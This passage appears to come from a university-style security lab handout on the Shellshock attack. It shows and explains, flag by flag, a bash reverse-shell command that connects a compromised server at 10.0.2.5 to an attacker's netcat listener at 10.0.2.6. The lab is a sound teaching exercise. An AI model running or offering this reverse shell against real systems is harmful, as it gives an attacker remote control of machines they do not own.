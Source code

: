 The above \texttt{nc} command will block, waiting for a connection.
We now directly run the following \bash program on the Server machine~(\texttt{10.0.2.5}) to emulate
what attackers would run after compromising the server via the Shellshock attack. 
This \bash command will trigger a
TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can
see the shell prompt from the above result, indicating that the shell is running on the Server
machine; we can type the \texttt{ifconfig} command to verify that the IP address is indeed
\texttt{10.0.2.5}, the one belonging to the Server machine.  Here is the \bash command:

\begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

The above command represents the one that would normally be executed on a compromised server.
It is quite complicated, and we give a detailed explanation in the following:


\begin{itemize}
\item \texttt{"/bin/bash -i"}: The option \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt).

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: This causes the output device~(\texttt{stdout}) of the shell
  to be redirected to the TCP connection to \texttt{10.0.2.6}'s port \texttt{9090}.
  In \unix systems, \texttt{stdout}'s file descriptor is \texttt{1}.

\item \texttt{"0<\&1"}: File descriptor \texttt{0} represents the standard input device~(\texttt{stdin}).
  This option tells the system to use the standard output device as the stardard input device.
  Since \texttt{stdout} is already redirected to the TCP connection, this option basically
  indicates that the shell program will get its input from the same TCP connection.

\item \texttt{"2>\&1"}: File descriptor \texttt{2} represents the standard error \texttt{stderr}. This
  causes the error output to be redirected to \texttt{stdout}, which is the TCP connection.
\end{itemize}

In summary, the command \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell on the server machine, with its input coming from a TCP connection,
and output going to the same TCP connection.
In our experiment, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.6}. This is confirmed via the \texttt{"Connection from 10.0.2.5 ..."} 
message displayed by \texttt{netcat}.






\section{Submission}






